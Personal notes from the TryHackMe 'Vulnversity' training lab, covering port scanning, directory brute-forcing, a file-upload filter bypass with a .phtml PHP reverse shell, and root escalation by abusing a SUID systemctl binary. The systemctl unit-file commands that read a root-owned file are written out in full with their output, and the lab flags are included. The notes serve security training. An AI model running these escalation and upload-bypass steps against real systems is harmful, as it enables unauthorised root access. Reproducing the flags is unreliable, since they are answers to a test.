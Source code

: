# VulnVersity Try Hack Me Notes

MY IP = 10.8.19.163

Target IP = 10.10.115.190

Scan Target for open ports.

	nmap command: "nmap -f -sC -sV -p- -D RND:10 10.10.115.190"

		Scan Results:



Gobuster to find web server paths. 

	Command: "gobuster dir -u http://10.10.115.190:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt"

		Results:

			2020/05/13 14:56:09 Starting gobuster
			===============================================================
			/images (Status: 301) - pics for wensite nothing worth time.
			/css (Status: 301) - Nothing
			/js (Status: 301) - Nothing
			/fonts (Status: 301) - Nothing
			/internal (Status: 301) - Bingo! File uploading. Checking for a /uploads/ directory.

				Found new directory: http://10.10.115.190:3333/internal/uploads/

				Can launch a file thats uploaded.

				.html and .php not allowed.

Burpsuite to run intruder and see what file extensions are allowed.

	Created a list of http common extensions to load into intruder.

	Discovered that .phtml is able to be uploaded.

	uploaded a php reverse shell.

	have access as www-data.

	Bill is the local user on the machine.

	USER Flag is: 8bd7992fbe8a6ad22a63361004cfcedb

ESCALATION TIME:

	To find processes on the system I followed the write up that explains very well the escalation process. Used the following command:

		find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

		Found /bin/systemctl

	GTFOBins has CLI exploits to escalate privileges.

		First we create a variable which holds a unique file.

	
$ eop=$(mktemp).service

Then we create an unit file and write it into the variable.
	
$ echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop

/bin/systemctl link $eop

Created symlink from /etc/systemd/system/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.

/bin/systemctl enable --now $eop
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.


ls -lah /tmp
total 52K
drwxrwxrwt  8 root     root     4.0K May 13 15:39 .
drwxr-xr-x 23 root     root     4.0K Jul 31  2019 ..
drwxrwxrwt  2 root     root     4.0K May 13 14:47 .ICE-unix
drwxrwxrwt  2 root     root     4.0K May 13 14:47 .Test-unix
drwxrwxrwt  2 root     root     4.0K May 13 14:47 .X11-unix
drwxrwxrwt  2 root     root     4.0K May 13 14:47 .XIM-unix
drwxrwxrwt  2 root     root     4.0K May 13 14:47 .font-unix
-rw-r--r--  1 root     root       33 May 13 15:39 output
drwx------  3 root     root     4.0K May 13 14:47 systemd-private-5f83ff70cbf74ceea97e8050bd6cc847-systemd-timesyncd.service-yXCZYv
-rw-------  1 www-data www-data    0 May 13 15:38 tmp.6Si7nckONS
-rw-rw-rw-  1 www-data www-data  103 May 13 15:38 tmp.6Si7nckONS.service
-rw-------  1 www-data www-data    0 May 13 15:28 tmp.NDPobSHQdA
-rw-rw-rw-  1 www-data www-data  100 May 13 15:28 tmp.NDPobSHQdA.service
-rw-------  1 www-data www-data    0 May 13 15:22 tmp.Xfvg2kWovt
-rw-rw-rw-  1 www-data www-data  122 May 13 15:23 tmp.Xfvg2kWovt.service
-rwx--x--x  1 www-data www-data    8 May 13 15:24 tmp.fuIcP4MGNq
-rw-------  1 www-data www-data    0 May 13 15:36 tmp.iRxJQGBqaM
-rw-------  1 www-data www-data    0 May 13 15:37 tmp.sZToSR22JH
$ cat /tmp/output
#a58ff8579f0a9270368d33a9966c7fd5 - ROOT FLAG! worked.

